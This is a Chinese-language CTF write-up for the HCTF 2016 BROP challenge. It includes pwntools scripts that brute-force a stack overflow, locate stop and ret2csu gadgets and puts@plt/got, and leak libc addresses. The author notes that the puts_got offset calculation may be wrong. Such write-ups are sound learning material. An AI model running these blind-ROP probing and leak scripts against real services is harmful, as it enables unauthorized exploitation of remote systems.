

HTCF 2016 出题人去哪了题解 (BROP)
前言
我看了一下，网上已经有很多关于这题的题解了，不过还是自己写一下更好一点。
这道题目主要就是用了 BROP 这个方法，我也是通过这道题才学会这个方法的。
源码分析
我没参加过比赛，不过我估计比赛也没有给出二进制文件，而是就告诉你们连接我服务器的哪个端口，所以没有办法本地调试，这就是麻烦之处。
连上服务器，发现就是输入密码，看来就是简单的登录检查程序。
解题步骤
确定栈溢出
先看一看他们有没有栈溢出，长度是多少，脚本如下。本质上就是暴力，每次增加一个长度，然后看看程序有没有崩溃。
def getbufferflow_length():
i = 1
while 1:
try:
sh = process('./brop')
sh.recvuntil('WelCome my friend,Do you know password?\n')
sh.send(i * 'a')
output = sh.recv()
sh.close()
print(output)
if not output.startswith(b'No password'):
return i - 1
else:
i += 1
except EOFError:
sh.close()
return i - 1
寻找 stop_gadget
什么是 stop gadget 呢，其实你就可以理解成，跳到这个地址后，程序执行它不会进行崩溃。
比如这道题目中，我找到的就是 main 函数的地址，这样程序跳到这个地址，继续重新执行 main 函数，当然不会崩溃。
寻找方式也很朴素，就是不断地利用栈溢出，从起始地址 0x400000 暴力寻找地址即可。
我推荐找到的地址是可以让程序输出某个比较有特征的语句，比如我这里就是找 main 函数的地址，这样程序会输出 WelCome.
def check_stop_gadget(length, addr):
try:
sh = process('./brop')
sh.recvuntil('password?\n')
payload = b'a' * length + p64(addr) + b'a' * 10
sh.sendline(payload)
content = sh.recv()
sh.close()
return content.startswith(b'WelCome')
except Exception:
sh.close()
return False
stop_addr = 0x400000 - 1
while True:
stop_addr += 1
if check_stop_gadget(bufferflow_len, stop_addr):
break
寻找 brop_gadget
brop_gadget 是什么
什么是 brop_gadget，这里要有 ret2csu 的知识储备，brop_gadget 就是格式是这样的 ROP_gadget: pop * 6 + ret
为什么要找这样的 rop_gadget，因为如果找到了这种有 6 个 pop 的形式，基本上大概率它就是 ret2csu 中利用的 rop.
在这里写一下 ret2csu 中的 rop:
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
有了它可以干什么？我们通过布局栈就能控制很多寄存器。而且比较重要的是，可以利用偏移量控制 rsi 和 rdi。看一下下面的图就好理解了，也就是原来的 gadget 稍微偏一下，翻译成了 pop rsi 和 pop rdi 的指令。

另外插一句，这是我的个人想法，找到了 brop_gadget 的地址，就相当于找到了 _libc_csu_init 函数的地址，如下面所示。
那感觉可以利用很多东西，比如 ret2csu 就完全可以用了，因为地址我全都知道了。
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near ; DATA XREF: _start+16
.text:00000000004005C0 push r15
.text:00000000004005C2 push r14
...
.text:0000000000400616 loc_400616: ; CODE XREF: __libc_csu_init+34
.text:0000000000400616 add rsp, 8
.text:000000000040061A pop rbx
.text:000000000040061B pop rbp
.text:000000000040061C pop r12
.text:000000000040061E pop r13
.text:0000000000400620 pop r14
.text:0000000000400622 pop r15
.text:0000000000400624 retn
.text:0000000000400624 __libc_csu_init endp
brop_gadget 怎么找
这个就很简单了，利用栈溢出构造格式：{ padding | want_addr | xxxx * 6 | stop_gadget }.
如果程序不崩溃就 OK，是吗？显然还有一点要注意，如果 want_addr 就是 stop_gadget 怎么办？是不是无法检测了对吧。
所以最后实现方式如下。
def check_brop_gadget(length, stop_gadget, addr):
try:
sh = process('./brop')
sh.recvuntil('password?\n')
payload = b'a' * length + p64(addr) + p64(0)*6 + p64(stop_gadget) + p64(0)*8
sh.sendline(payload)
content = sh.recv(timeout=1)
sh.close()
if not content.startswith(b'WelCome'):
return False
return (not check_stop_gadget(length, addr))
except Exception as e:
sh.close()
return False
brop_addr = 0x400000 - 1
while True:
brop_addr += 1
if check_brop_gadget(bufferflow_len, stop_addr, brop_addr):
break
寻找 puts_plt
有了 brop_gadget，所以就可以知道 pop rdi, ret 的地址了，要知道 rdi 是函数的第一个参数，可能会很有用。
寻找 puts_plt 方法同样是暴力，看下面代码即可。我就是暴力地址，看看它能不能输出程序的开头。因为程序 ELF 格式，开头前四个字节都是固定的 magic number.
def check_puts_plt(length, rdi_ret, addr):
try:
sh = process('./brop')
sh.recvuntil('password?\n')
payload = b'A' * length + p64(rdi_ret) + p64(0x400000) + p64(addr) + b'a' * 8
sh.sendline(payload)
content = sh.recv(timeout=1)
sh.close()
return (content.startswith(b'\x7fELF'))
except Exception:
sh.close()
return False
# 这里以 0x10 为步长来遍历，因为 plt 最后一个字节一定是 0
puts_plt = 0x400000 - 0x10
while True:
puts_plt += 0x10
if check_puts_plt(bufferflow_len, rdi_ret, puts_plt):
break
寻找 puts_got
现在要泄露 puts_got，已经知道 puts_plt 了，那就太好办了。我们把 puts_plt 输出出来就好了。
回忆一下，plt 是如何记录 got 表的。
PLT0:
push *(got + 4) // got+4 = module_ID
jump *(got + 8) // got+8 = _dl_runtime_resolve
puts@plt:
jmp *(puts@got)
push n
jump PLT0
所以就是把 puts_plt 输出出来，那么它的结果对应 jmp *(puts@got)
def gets_puts_got(length, rdi_ret, puts_plt):
sh = process('./brop')
sh.recvuntil('password?\n')
payload = b'A' * length + p64(rdi_ret) + p64(puts_plt) + p64(puts_plt) + b'a' * 8
sh.sendline(payload)
content = sh.recv(timeout=1)
sh.close()
# 这里需要写一下说明，可能还不太对
jmp_addr = ( u64(content[2:5].ljust(8, b'\x00')) )
# 因为 jmp xx 这个是相对地址，所以计算真正的地址需要把当前 PC 加上这个偏移量
return puts_plt + 0x6 + jmp_addr
寻找 puts_got 内容
之前我们找的是 puts_got 这个地址在哪，找到之后就可以利用这个地址输出 puts_got 的内容了。这里面内容就是实际运行是 puts 的地址。
这样通过 LibcSearcher 根据偏移量就可以获取 libc 基址。之后就是普通的溢出攻击了。
具体看代码
def gets_puts_addr(length, rdi_ret, puts_plt, puts_got):
sh = process('./brop')
sh.recvuntil('password?\n')
payload = b'A' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + b'a' * 8
sh.sendline(payload)
content = sh.recv(timeout=1)
sh.close()
return u64(content.ljust(8, b'\x00'))
总结
回顾流程
- 首先确定溢出长度
- 寻找 stop_gadget(不会奔溃的地址)
- 寻找 brop_gadget(6 个 pop 可以运行的地址)(利用 stop_gadget)
- 通过上述步骤，得到了
pop rdi, ret地址，下面全部都是利用这个地址 - 寻找 puts_plt(暴力搜索)
- 寻找 puts_got
- 寻找 puts_real_addr
- 根据偏移量通过 LibcSearcher 找到 libc 基址，正常溢出攻击